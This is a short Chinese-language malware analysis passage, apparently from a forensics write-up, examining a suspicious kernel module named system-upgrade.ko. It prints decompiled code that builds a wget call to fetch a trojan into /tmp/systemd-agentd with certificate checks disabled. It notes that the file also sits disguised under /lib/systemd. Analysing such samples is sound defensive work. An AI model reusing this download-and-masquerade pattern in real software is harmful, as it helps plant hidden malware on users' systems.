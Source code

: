 分析`/lib/modules/5.4.0-84-generic/kernel/drivers/system/system-upgrade.ko`

```
v2[55] = 0;
v8[0] = "/usr/bin/wget";
v8[1] = "-O";
v8[2] = "/tmp/systemd-agentd";
v8[3] = "--no-check-certificate";
```

使用wget下载了木马，并且重命名为`systemd-agentd`

![image-20250317225202825](./img/image-20250317225202825.png)

ida查看字符串发现该文件在`/lib/systemd/systemd-agentd`

![](./img/image-20250317230001527.png)
